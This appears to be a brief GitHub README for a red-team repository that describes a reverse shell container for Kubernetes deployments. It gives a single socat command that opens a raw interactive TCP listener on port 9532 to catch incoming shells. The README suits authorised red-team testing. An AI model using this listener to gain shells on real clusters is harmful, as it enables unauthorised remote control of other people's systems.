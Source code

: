 # redteam-gkpown
Reverse shell container for k8s deployments

socat file:`tty`,raw,echo=0 tcp-listen:9532
